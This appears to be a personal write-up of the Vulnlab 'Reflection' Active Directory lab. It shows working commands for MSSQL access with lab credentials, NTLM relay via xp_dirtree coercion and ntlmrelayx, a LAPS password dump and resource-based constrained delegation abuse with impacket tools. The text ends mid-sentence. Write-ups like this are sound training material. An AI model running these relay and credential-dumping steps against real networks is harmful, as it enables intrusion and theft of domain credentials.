 ```yaml
---
title: Vulnlab - Reflection
date: 2024-02-05
categories: [Vulnlab]
tags: [Vulnlab, AD]
pin: false
---
```


## Vulnlab - Reflection
Reflection is another chain from Vulnlab which goes into MSSQL exploitation, relaying and Resource-based Constrained Delegation (RBCD) abuse.

## Targets
Upon starting the box I added the following information into my hosts file.
```
10.10.153.213 reflection.vl
10.10.153.213 dc01.reflection.vl
10.10.153.214 ms01.reflection.vl
10.10.153.215 ws01.reflection.vl
```

## Scan dc.reflection.vl
```
PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-02 12:11:03Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
1433/tcp open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
3389/tcp open     ms-wbt-server Microsoft Terminal Services
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
6039/tcp filtered x11
9389/tcp open     adws?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Scan ms01.reflection.vl
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Scan ws01.reflection.vl
```

```

## SMB enumeration - MS01
After some SMB enumeration I figured out that the MS01 machine has an accessible share called 'staging'.
![_install](/assets/img/VL-Reflection/smbclient.png)
When accessing the share we can see that it contains a file called "staging_db.conf" which when viewed contains a set of credentials for a database called "staging":
![_install](/assets/img/VL-Reflection/smbclient2.png)

## MSSQL enumeration - MS01
Using netexec I tried the credentials that I found on the  share. This revealed that we can use it on the MSSQL database on MS01.
![_install](/assets/img/VL-Reflection/nxc_mssql.png)
Let access mssql service using mssqlclient.py from impacket:
```bash
python3 mssqlclient.py ./'web_staging':'Washroom510'@10.10.220.54
```
This results in us getting acccess on the MSSQL server on MS01 as the local user web_staging:
![_install](/assets/img/VL-Reflection/mssqlclient1.png)

## MSSQL UNC Path Injection Relay - MS01
I tried some basic privilege escalation techniques such as enabling xp_cmdshell which ultimatly resultated in nothing. One thing I noticed during enumeration is that the DC doesn't have SMB Signing enabled. I found this very odd and thought we might have to relay some kind of authentication request. An attack that I've done quite a few time on client assessments is using UNC Path Injection using the xp_dirtree stored procedure and relay the authentication to other machines in the domain.

First let's check if we can coerce authentication using xp_dirtree to our attacker machine:
![_install](/assets/img/VL-Reflection/xp_dirtree.png)
We see that we successfully receieve an incoming connection on our SMB server from the Domain User svc_web_staging. I also tried to crack the hash, however this didn't do well. Lets setup ntlmrelayx from impacket to relay to authentication:
```bash
ntlmrelayx.py -tf ips.txt -socks -smb2support -debug
```
I used the -tf and -socks option to relay the authentication to all computers and create a socks5 proxy which I can use my tools through. After triggering the coercion we can see that we have an active connection to DC and WS01 


## Active Directory Enumeration
Now that we have an active Socks5 SMB connection to the DC and WS01 we can perform some AD enumeration. First let's see if we can find something of interest on the SMB shares using smbclient.py from the impacket toolkit:
```bash
proxychains smbclient.py REFLECTION/SVC_WEB_STAGING:'fakepass'@10.10.153.213
```
We can check if there are any shares which we can access. In this case we can access the "prod" share which contains a file called"prod_db.conf". We already had staging credentials to the MSSQL database, now lets try to validate if we have access to another MSSQL database using netexec:
```bash
nxc mssql ips.txt -u web_prod -p Tribesman201 --local-auth
```
Netexec tells us that the credentials are valid on the DC, let's login again using mssqlclient.py from impacket:
```bash
python3 mssqlclient.py ./'web_prod':'Tribesman201'@10.10.153.213
```
And once again we have access to the prod database. After some quick enumeration I found the users table which contain two sets of credentials:
![_install](/assets/img/VL-Reflection/initial_ad_creds.png)

I put the credentials into two seperate files called "users.txt" and "pass.txt" and checked if the credentials are valid using netexec:

Now that we have valid AD credentials we can enumerate the AD environment. Lets start by kicking of the BloodHound.py remote ingestor:
```bash
python3 bloodhound.py -d reflection.vl -v --zip -c All -dc reflection.vl -ns 10.10.153.213 -u dorothy.rose -p 'hC_fny3OK9glSJ'
```
After running the script we can load the zip file into BloodHound and perform some enumeration. I quickly noticed that the user "abbie.smith" has GenericAll right on the MS01 machine which allows us to add the ms-DSAllowedToActOnBehalfOfOtherIdentity attribute. This allows us to perform an RBCD attack on the Domain thus allowing us to elevate privileges. Sadly I quickly realized that his was not possible since the MachineAccountQuota was set to 0.
```bash
nxc ldap 10.10.153.213 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M MAQ
```
![_install](/assets/img/VL-Reflection/maq.png)

Upon enumerating the MS01 machine I noticted that it has LAPS enabled. 
![_install](/assets/img/VL-Reflection/LAPS.png)
Since we have GenericAll permissions on the computer this allows us the retrieve the Local Admininistrator Password of the MS01 computer. Using netexec I was able to dump the LAPS password of the computer:
```bash
nxc ldap 10.10.153.213 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M laps
```
![_install](/assets/img/VL-Reflection/laps_dump.png)



## Resource Based Constrained Delegation

Dumped the password of Gerogia.price which has genericall on WS01. We get get hash of WS01 and perform RBCD. First run secretsdump.py and add RBCD using rbcd.py from impacket.

Then impersonate the administrator on the domain while request a silver ticket using getST.py from again impacket for the CIFS service.

NExt we import the kerberos ticket in memory and secretsdump the WS01 computer. This reveals the password of Rhys.Garner, however we don't need his password since we already have Domain Admin access. Let's try to 
